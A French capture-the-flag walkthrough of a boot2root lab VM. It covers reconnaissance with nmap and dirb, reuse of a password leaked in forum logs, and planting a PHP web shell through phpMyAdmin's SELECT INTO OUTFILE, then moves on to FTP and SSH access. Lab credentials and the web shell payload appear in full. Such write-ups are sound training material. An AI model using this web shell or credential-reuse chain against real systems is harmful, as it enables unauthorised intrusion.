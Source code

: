 <h2>RECHERCHE D'IP</h2>
installation de nmap
<pre><code>> sudo apt-get install nmap
> nmap -sP 192.168.1.0/24 
> nmap 192.168.1.28

Nmap scan report for 192.168.1.28 (192.168.1.28)
Host is up (0.0055s latency).
Not shown: 987 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
119/tcp open  nntp
143/tcp open  imap
443/tcp open  https
465/tcp open  smtps
563/tcp open  snews
587/tcp open  submission
993/tcp open  imaps
995/tcp open  pop3s

Nmap done: 1 IP address (1 host up) scanned in 4.71 seconds
</code></pre>

<code>nmap -sP 192.168.1.0/24 </code>-> nous donne les différentes ips connectées, on utilise nmap sur chacune pour trouver une ip contenant un port https open pour trouver l'ip de la vm

Après avoir réussi à trouver l'ip, nous allons chercher les différents paths de l'ip sur le port https grace à dirb
<pre><code>> sudo apt-get install dirb
> dirb https://IP

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.1.28/ ----
+ https://192.168.1.28/cgi-bin/ (CODE:403|SIZE:289)
==> DIRECTORY: https://192.168.1.28/forum/
==> DIRECTORY: https://192.168.1.28/phpmyadmin/
+ https://192.168.1.28/server-status (CODE:403|SIZE:294)
==> DIRECTORY: https://192.168.1.28/webmail/

</code></pre>

<h2>Partie HTTPS</h2>

Ensuite on se dirige vers /phpmyadmin, et on nous demande de fournir un mdp et un login, donc nous allons sur /formum

On trouve un topic : <code>Probleme login ?</code>
On voit que le topic est créé par lmezard, et que la page est rempli de log créé par un admin,
on cherche donc le nom lmezard dans la page, et on tombe sur ceci:
<pre><code>Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)</code></pre>

On voit un password sur la première ligne, donc on va essayer de se connecter au profil de lmezard sur le forum.

<code>login: lmezard

mdp: !q\]Ej?*5K5cy*AJ</code>

Ensuite on va sur son profil, ou l'on trouve son adresse mail.

<code>laurie@borntosec.net</code>

On tente de se connecter sur https://IP/webmail avec le même password, et ça marche.
On découvre 2 mails, celui qui nous intéresse est DB ACCESS, dans lequel on trouve le login et le mdp pour phpmyadmin

<code>root/Fg-'kKXBj87E:aJ$
</code>

Après s'être connecté sur phpmyadmin, on cherche a ouvrir un terminal grâce a un port apache ouvert:

```sql
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/phpshell.php'
```

On se dirige vers https://IP/forum/templates_c/phpshell.php et on y rentre la commande suivante pour lister les fichiers du terminal php:
<code>find / -user www-data -print 2>/dev/null</code>

On voit sur la sortie <code>/home/LOOKATME/password</code> et on l'affiche:

<code>lmezard:G!@M6f4Eatau{sF"</code>

<h2>Partie FILEZILLA</h2>

On a un accès ouvert a un port FTP, on va essayer le couple login/mdp sur un logiciel capable de lire ce genre de port (Filezilla par exemple), et ça fonctionne.
On trouve a la racine un fichier fun et un Readme, on les import pour les exploiter.

README:
<pre><code>Complete this little challenge and use the result as password for user 'laurie' to login in ssh</code></pre>

Le fichier fun est en fait une compression, on le décompresse avec la commande <code>tar -xvf fun </code> et on obtient un dossier remplis de .pcap.

On applique donc un script permettant de trier les fichiers, qui par la suite créera un main.c en commentant tout les trolls:

```c
import os
import re

main = {}

for file in os.listdir("ft_fun"):
	with open(f"ft_fun/{file}", "r") as f:
		code = f.read()
		# print(code)
		result = re.findall(r'//file([0-9]*)', code)
		main[int(result[0])] = code

with open("main.c", "w+") as f:
	for value in sorted(main.items()):
		f.write(str(value[1]) + "\n")
```
<pre><code>> gcc main.c
> ./a.out
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%</code></pre>

On passe un sha256 sur le password récupéré et on obtient:
<code>330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4</code>

On peut maintenant se connecter en ssh a boot2root avec le login laurie et le passwdn récupéré

<h2>Partie SSH</h2>

A la racine de la vm, on trouve un executable bomb et un README
Bomb est un petit script nous demandant 6 passwords pour defuse la bombe, et ainsi récupérer le mot de passe de l'user thor
